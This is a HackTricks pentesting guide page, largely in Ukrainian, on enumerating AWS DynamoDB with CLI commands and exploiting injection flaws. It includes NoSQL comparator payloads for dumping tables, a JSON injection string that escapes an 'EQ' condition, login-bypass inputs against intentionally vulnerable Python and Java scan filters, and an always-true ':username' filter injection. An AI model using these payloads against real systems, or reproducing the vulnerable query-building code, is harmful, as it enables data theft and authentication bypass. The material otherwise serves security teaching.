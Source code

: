 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB представлений AWS як **повністю керована, безсерверна, ключ-значення NoSQL база даних**, призначена для підтримки високопродуктивних додатків незалежно від їх розміру. Сервіс забезпечує надійні функції, включаючи вбудовані заходи безпеки, безперервні резервні копії, автоматичну реплікацію в кількох регіонах, інтегроване кешування в пам'яті та зручні утиліти для експорту даних.

У контексті DynamoDB, замість створення традиційної бази даних, **створюються таблиці**. Кожна таблиця вимагає вказівки **ключа розділу** як невід'ємної частини **первинного ключа таблиці**. Цей ключ розділу, по суті, є **хеш-значенням**, відіграє критичну роль як у отриманні елементів, так і в розподілі даних між різними хостами. Цей розподіл є вирішальним для підтримки як масштабованості, так і доступності бази даних. Крім того, є можливість додати **ключ сортування** для подальшого уточнення організації даних.

### Encryption

За замовчуванням, DynamoDB використовує ключ KMS, який \*\*належить Amazon DynamoDB,\*\* навіть не керований ключ AWS, який принаймні належить вашому обліковому запису.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Можливо **планувати** створення **резервних копій таблиць** або створювати їх **на вимогу**. Крім того, також можливо увімкнути **відновлення на момент часу (PITR) для таблиці.** Відновлення на момент часу забезпечує безперервні **резервні копії** ваших даних DynamoDB на **35 днів**, щоб допомогти вам захиститися від випадкових операцій запису або видалення.

Також можливо експортувати **дані таблиці до S3**, але таблиця повинна мати **увімкнене PITR**.

### GUI

Існує GUI для локальних сервісів Dynamo, таких як [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) тощо, які можуть бути корисними: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Неавтентифікований доступ

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Підвищення привілеїв

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Після експлуатації

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Постійність

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## Впровадження в DynamoDB

### SQL-ін'єкція

Існують способи доступу до даних DynamoDB з **SQL-синтаксисом**, тому типові **SQL-ін'єкції також можливі**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL-ін'єкція

У DynamoDB можна використовувати різні **умови** для отримання даних, як у звичайній NoSQL-ін'єкції, якщо можливо **з'єднати більше умов для отримання** даних, ви могли б отримати приховані дані (або вивантажити всю таблицю).\
Тут ви можете знайти умови, підтримувані DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Зверніть увагу, що **різні умови** підтримуються, якщо дані отримуються через **`query`** або через **`scan`**.

{% hint style="info" %}
Насправді, **Query** дії повинні вказувати **умову "EQ" (дорівнює)** в **первинному** ключі, щоб працювати, що робить їх набагато **менш вразливими до NoSQL-ін'єкцій** (і також обмежує операцію).
{% endhint %}

Якщо ви можете **змінити порівняння**, що виконується, або додати нові, ви могли б отримати більше даних.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Сира ін'єкція Json

{% hint style="danger" %}
**Ця вразливість базується на Scan Filter dynamodb, який тепер застарілий!**
{% endhint %}

**DynamoDB** приймає **Json** об'єкти для **пошуку** даних у БД. Якщо ви виявите, що можете записувати в json об'єкт, надісланий для пошуку, ви зможете зробити дамп БД, всієї її вмісту.

Наприклад, ін'єкція в запит, як: 

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

зловмисник міг би ввести щось на кшталт:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

виправити умову "EQ", шукаючи ID 1000, а потім шукати всі дані з рядком Id, що перевищує 0, що є всіма.

Ще один **вразливий приклад з використанням входу** може бути:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Це буде вразливим до:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Деякі SDK дозволяють використовувати рядок, що вказує на фільтрацію, яка має бути виконана, наприклад: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Вам потрібно знати, що при пошуку в DynamoDB для **заміни** значення **атрибута** в **виразах фільтра** під час сканування елементів, токени повинні **починатися** з символу **`:`**. Такі токени будуть **замінені** на фактичне **значення атрибута під час виконання**.

Отже, вхід, подібний до попереднього, можна обійти за допомогою чогось на зразок:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

